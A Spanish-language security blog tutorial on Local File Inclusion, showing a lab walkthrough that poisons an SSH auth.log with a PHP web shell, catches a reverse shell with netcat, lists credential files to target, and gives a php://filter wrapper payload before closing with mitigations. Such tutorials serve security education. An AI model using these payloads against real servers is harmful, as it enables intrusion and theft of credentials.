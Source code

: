 ```yaml
---
date: 2023-07-25T20:00:05.000Z
layout: post
comments: true
title: Local File Inclusion
subtitle: 'Uso de wrappers'
description: >-
image: >-
    http://imgfz.com/i/yZDLQir.png
optimized_image: >-
    http://imgfz.com/i/yZDLQir.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - wrappers
  - lfi
  - rfi
  - remote
  - rce
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inclusión de archivos locales, o Local File Inclusion (LFI), es un tipo de vulnerabilidad de seguridad que permite a un atacante leer archivos del sistema de archivos del servidor. Esto puede ser explotado para proporcionar al atacante acceso a información sensible que de otro modo estaría protegida.

La vulnerabilidad LFI ocurre cuando una aplicación web utiliza la entrada del usuario para construir una ruta de archivo sin suficiente validación de entrada o sin sanitizar la entrada del usuario de manera adecuada. Por ejemplo, si una aplicación web toma un parámetro de la URL y lo usa para abrir un archivo en el servidor, un atacante podría potencialmente manipular ese parámetro para abrir cualquier archivo que desee.

## Caso práctico

Para realizar la comprobación de LFI se puede realizar lo siguiente:

[!lfi2](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi2.png){:target="_blank"}

De esta manera, no solo se puede comprobar la existencia de la vulnerabilidad, sino que también se puede descubrir información sobre los usuarios del sistema.

[!lfi3](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi3.png){:target="_blank"}

Si no nos permite acceder al ```/etc/passwd``` o queremos probar el acceso a otros directorios o archivos, podemos realizar un fuzzing para verificar el alcance de la siguiente forma con ```wfuzz```, ```gobuster```, entre otros:

[!lfi4](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi4.png){:target="_blank"}

> Se pueden probar otros diccionarios como el de [Seclist](https://github.com/danielmiessler/SecLists).

Esto nos permite no solo visualizar alcance sino también identificar posibles directorios que permiten Remote File Inclusion (RFI).

### Remote File Inclusion (RFI)

Si el servidor está mal configurado o la aplicación es especialmente vulnerable, un atacante podría incluso ser capaz de utilizar una vulnerabilidad LFI para ejecutar código en el servidor.

En este caso se encontró el archivo ```auth.log```, el cual se usa típicamente para registrar eventos de autenticación, como inicios y cierres de sesión. Es posible por medio del puerto 22 SSH que se permita la interpretación de código que permita un RFI de la siguiente forma sin necesidad de conocer la contraseña:

```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ ssh '<?php system($_GET['cmd']); ?>'@10.1.1.40  
The authenticity of host '10.1.1.40 (10.1.1.40)' can't be established.
ED25519 key fingerprint is SHA256:h+1ijitcr/kVnfc33XfHyMIJifcp2Vt9He9qc+ph1Xk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.1.40' (ED25519) to the list of known hosts.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
<?php system($_GET[cmd]); ?>@10.1.1.40: Permission denied (publickey,password).
               
```

Una vez realizamos este proceso, podremos ejecutar comandos de la siguiente forma:

[!lfi5](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi5.png){:target="_blank"}

Por medio del siguiente siguiente código en php se puede devolver una shell interactiva a nuestra máquina atacante. 

[!lfi6](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi6.png){:target="_blank"}


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...                
```

[!lfi7](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi7.png){:target="_blank"}


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 45112
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ifconfig
enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.2.11  netmask 255.255.255.0  broadcast 10.1.2.255
        inet6 fd17:625c:f037:2:3680:f705:d998:e4a0  prefixlen 64  scopeid 0x0<global>
        inet6 fd17:625c:f037:2:88c5:fc45:6c92:8fcc  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::9fbf:b0a0:b8de:8388  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:bf:db:0d  txqueuelen 1000  (Ethernet)
        RX packets 576  bytes 70357 (70.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 587  bytes 64426 (64.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.1.40  netmask 255.255.255.0  broadcast 10.1.1.255
        inet6 fd17:625c:f037:2:e57f:6313:9d59:5f34  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::e5df:32a2:43e5:9c3f  prefixlen 64  scopeid 0x20<link>
        inet6 fd17:625c:f037:2:e563:f97e:6c46:f9ba  prefixlen 64  scopeid 0x0<global>
        ether 08:00:27:bb:ab:38  txqueuelen 1000  (Ethernet)
        RX packets 1249661  bytes 196093620 (196.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1529423  bytes 580271835 (580.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 5577  bytes 550401 (550.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5577  bytes 550401 (550.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

$ 
```

Finalmente obtenemos acceso al sistema por medio del archivo ```auth.log```. 

## Opciones de archivos sensibles al explotar un LFI

Recordar que estos son solo ejemplos y la ubicación y naturaleza exacta de los archivos sensibles pueden variar según el sistema y la configuración.

- `/etc/passwd`: Contiene información sobre cada cuenta de usuario en un sistema Unix o Linux.
- `/etc/shadow`: En sistemas Unix y Linux, este archivo contiene las contraseñas cifradas de los usuarios.
- `/var/log/auth.log`: Archivo de registro de autenticación en muchos sistemas basados en Unix.
- `/etc/hosts`: Puede contener asignaciones personalizadas de nombres de host a direcciones IP.
- `/etc/apache2/apache2.conf` y otros archivos de configuración del servidor web: Pueden revelar información sobre la configuración del servidor web.
- `.htaccess`, `wp-config.php`, y otros archivos de configuración de aplicaciones web: Pueden contener información sensible como contraseñas de bases de datos.
- `~/.ssh/id_rsa`: Este archivo contiene la clave privada de RSA para la autenticación SSH de un usuario.
- `~/.ssh/authorized_keys`: Este archivo puede contener una lista de claves públicas que se permiten autenticar en el sistema.
- Archivos de configuración de la base de datos, como `my.cnf` para MySQL: Estos pueden contener credenciales de base de datos o detalles de la configuración.

## Wrappers

En el contexto de la programación, un "wrapper" o envoltorio es un tipo de función, método o clase que contiene (o "envuelve") un conjunto de instrucciones o un objeto con el objetivo de agregar alguna funcionalidad adicional, ocultar la complejidad o cambiar la interfaz de lo que está envolviendo. En PHP, un "wrapper" puede ser utilizado para indicar el tipo de protocolo que se debe usar para acceder a un archivo o recurso. Por ejemplo, puedes tener "http://" o "ftp://" como wrappers en las rutas de los archivos.

### Ejemplo en base64

```
php://filter/convert.base64-encode/resource=<archivo>
```

[!lfi1](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi1.png){:target="_blank"}


## Recomendaciones

1. **Validación de la entrada**: La entrada del usuario siempre debe tratarse con sospecha. Nunca deberías usar la entrada del usuario directamente en funciones que trabajan con el sistema de archivos sin validarla primero. La validación debe asegurar que la entrada es segura y está dentro de los parámetros esperados.

2. **Limitación del directorio**: Cuando sea posible, limita la inclusión de archivos a un directorio específico y niega el acceso a cualquier otro directorio. Esto puede limitar el alcance de cualquier vulnerabilidad de LFI.

3. **Desactiva la inclusión de archivos remotos**: En PHP, esto puede hacerse configurando `allow_url_include = Off` en el archivo `php.ini`. Esto puede prevenir la inclusión de archivos remotos, lo que puede ser un vector de ataque adicional cuando una vulnerabilidad de LFI está presente.

4. **Uso de listas blancas para la inclusión de archivos**: Si necesitas permitir la inclusión de archivos en función de la entrada del usuario, considera el uso de una lista blanca de archivos permitidos en lugar de depender de la validación de la entrada.

5. **Uso de funciones menos peligrosas**: En lugar de usar funciones como `include` o `require` en PHP, considera el uso de funciones que son intrínsecamente menos peligrosas, como `readfile` o `file_get_contents`, cuando sea apropiado.
